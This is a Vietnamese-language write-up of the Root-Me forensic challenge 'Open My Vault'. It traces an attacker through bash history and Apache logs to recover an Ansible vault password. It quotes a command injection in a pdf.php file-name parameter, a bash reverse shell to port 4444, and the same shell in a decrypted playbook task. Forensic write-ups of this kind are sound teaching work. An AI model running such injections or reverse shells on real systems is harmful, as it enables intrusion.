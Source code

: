 # O[pen My Vault](https://www.root-me.org/en/Challenges/Forensic/Open-My-Vault)

Sau khi ssh vào server, ta kiểm tra history của user:

```bash
    1  id
    2  cat /etc/passwd
    3  pwd
    4  cd /home/m4st3r/
    5  ping 128.66.0.0
    6  cat /etc/shadow
    7  l
    8  ll
    9  cd ansible/
   10  ls -lah
   11  tree .
   12  cat inventory.cfg
   13  cat playbook.yml
   14  cat roles/zip/tasks/main.yml
   15  mkdir roles/other
   16  mkdir roles/other/tasks
   17  ansible-vault -h
   18  ansible-vault create roles/other/tasks/main.yml
   19  vim playbook.yml
   20  ansible-playbook -h
   21  ansible-playbook -i inventory.cfg --vault-password-file=/tmp/.secure playbook.yml
   22  rm /tmp/.secure
```

Ở dòng 21, m4st3r đã chạy một playbook đã mã hóa với password nằm ở `/tmp/.secure` và sau đó anh ấy đã xóa nó với `rm /tmp/.secure`

Thử chạy lại dòng 21, kết quả trả về là không thể vì thiếu ssh-key

Giờ thì check thử `/var/log` ta có:

```bash
ll /var/log/
total 712
drwxr-xr-x 1 root root              4096 Dec  4 11:53 ./
drwxr-xr-x 1 root root              4096 Dec  4 11:53 ../
-rw-r--r-- 1 root root             13764 Dec  4 11:56 alternatives.log
drwxr-xr-x 1 root adm               4096 Dec  4 12:05 apache2/
drwxr-xr-x 1 root root              4096 Dec  4 11:53 apt/
-rw-r--r-- 1 root root             58592 Sep 22 16:47 bootstrap.log
-rw-rw---- 1 root utmp                 0 Sep 22 16:47 btmp
-rw-r--r-- 1 root root            284658 Dec  4 11:56 dpkg.log
-rw-r--r-- 1 root root             32032 Dec  4 12:05 faillog
drwxr-sr-x 2 root systemd-journal   4096 Dec  4 11:53 journal/
-rw-rw-r-- 1 root utmp            292292 Dec 11 08:17 lastlog
drwx------ 2 root root              4096 Dec  4 11:53 private/
-rw-rw-r-- 1 root utmp               384 Dec 11 08:17 wtmp
```

Okay, giờ thì check log theo thứ tự ưu tiên là syslog -> weblog. Đúng là anh ấy đã quên xóa log. Ở `/var/log/apache2/access.log` ta tìm được thứ này:

```bash
203.0.113.0 - - [03/Sep/2022:13:34:31 +0200] "GET /pdf.php?name=a.pdf;echo%20%22C4tXk9ctpG9QEMeL%22%20%3E%20/tmp/.secure HTTP/1.1" 200 31 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:104.0) Gecko/20100101 Firefox/104.0"
203.0.113.0 - - [03/Sep/2022:13:34:57 +0200] "GET /pdf.php?name=a.pdf;bash%20-i%20%3E&%20/dev/tcp/128.66.0.0/4444%200%3E&1 HTTP/1.1" 200 31 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:104.0) Gecko/20100101 Firefox/104.0"
```

Thứ này giống như website đã bị chèn shell. Decode với URL decode ta được:

```bash
echo "C4tXk9ctpG9QEMeL" > /tmp/.secure
bash -i >& /dev/tcp/128.66.0.0/4444 0>&1
```

Vậy là ta đã tìm được `.secure` password của vault. Giờ thì decrypt nó :

```bash
echo "C4tXk9ctpG9QEMeL" > /tmp/.secure
ansible-vault decrypt --vault-pass-file /tmp/.secure roles/other/tasks/main.yml
Decryption successful
...
cat roles/other/tasks/main.yml
- name: "hack the planet"
  ansible.builtin.shell: "bash -i >& /dev/tcp/128.66.0.0/4444 0>&1"

- name: "If someone search for a Flag ^^"
  ansible.builtin.shell: "echo '************' > /flag"
```

^^
